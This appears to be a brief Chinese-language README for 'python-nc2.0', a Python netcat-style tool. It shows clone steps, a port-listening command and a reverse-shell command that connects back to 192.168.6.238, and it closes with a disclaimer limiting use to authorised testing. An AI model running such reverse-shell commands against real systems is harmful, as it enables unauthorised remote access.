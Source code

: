 ## python-nc2.0

## 安装

```
git clone https://github.com/1derian/python-nc2.0.git
cd python-nc2.0
```

## 使用

监听端口

```
python3 nc2.0.py -p 9999
```

反弹shell

```
python3 nc2.0.py -r 192.168.6.238 -p 9999
```

## 免责声明🧐

本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建测试环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。